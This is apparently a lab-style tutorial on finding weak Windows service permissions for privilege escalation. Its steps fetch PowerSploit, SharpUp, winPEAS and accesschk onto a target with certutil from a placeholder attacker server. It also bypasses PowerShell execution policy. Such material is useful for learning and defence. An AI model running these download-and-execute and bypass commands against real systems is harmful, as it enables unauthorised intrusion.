 ### **ENUMERATING SERVICES PERMISSION WITH POWERUP**

1.  If you don’t already have PowerUp, you can get PowerUp.ps1 using the following command:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/25.png)
    
2.  Host the PowerUp.ps1 Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/26.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/PowerUp.ps1 PowerUp.ps1`  
    
    ![](../../../../img/Windows-Environment/27.png)
    
4.  To bypass the PowerShell execution policy and execute the PowerUp.ps1 in a single line:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`  
    
    ![](../../../../img/Windows-Environment/28.png)
    

### **ENUMERATING SERVICES PERMISSION WITH SHARPUP**

SharpUp is a free and open-source tool that can check for weaknesses in Windows services. It can scan for a variety of vulnerabilities related to standard privesc techniques.

1.  If you don’t already have SharpUp, you can get SharpUp.exe using the following command:  
    `wget https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/master/SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/29.png)
    
2.  Host the Powershell Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/30.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/SharpUp.exe SharpUp.exe`  
    
    ![](../../../../img/Windows-Environment/31.png)
    
4.  To run all the checks, execute the command audit. The tool has identified the filepermsvc service as vulnerable to modification, as shown below.  
    `.\SharpUp.exe audit`  
    
    ![](../../../../img/Windows-Environment/32.png)
    

### **ENUMERATING SERVICES PERMISSION WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/33.png)

    **NOTE:** We can identify that the target machine has a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    ![](../../../../img/Windows-Environment/34.png)
    
3.  Now, all we need to do is run winPEAS to search for weak service permissions  
    `.\winPEASx64.exe`  

    ![](../../../../img/Windows-Environment/35.png)

    **NOTE:** The Services Information section in winPEAS provides a comprehensive list of all services, along with their configurations and potential security issues.
    

### **ENUMERATING WEAK SERVICE FILE PERMISSIONS (ICACLS)**

1.  To verify folder permissions with icacls, it's important to understand the permissions.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.  
    
    ![](../../../../img/Windows-Environment/36.png)
    
2.  Lets view the permissions on the c:\\Program Files\\File folder  
    `icacls "C:\Program Files\File Permissions Service"`  
    
    ![](../../../../img/Windows-Environment/37.png)

    **NOTE:** This shows that BUILTIN\\Users have (RX) Read & Execute permissions for this folder.
    
3.  we can check permission of binary it self  
    `icacls "C:\Program Files\File Permissions Service\filepermservice.exe"`  
    
    ![](../../../../img/Windows-Environment/38.png)

    **NOTE:** This shows that Everyone has (F) Full Control permissions for C:\\Program Files\\File Permissions Service\\filepermservice.exe, allowing any user to read, execute, modify, or delete the service binary.
    

### **ENUMERATING WEAK SERVICE FILE PERMISSIONS (ACCESSCHK)**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/39.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../../img/Windows-Environment/40.png)

    **NOTE:** With accesschk now on the target system, we can use the following command to enumerate the folder permissions
    
3.  Let's view the permissions on the C:\\Program Files\\File Permissions Service\\filepermservice.exe  
    `.\accesschk64.exe -wvu "C:\Program Files\File Permissions Service\filepermservice.exe" -accepteula`  
    
    ![](../../../../img/Windows-Environment/41.png)

    **NOTE:** This shows that Everyone has (RW) Read and Write permissions for C:\\Program Files\\File Permissions Service\\filepermservice.exe, granting any user full access to read, execute, modify, or delete the service binary.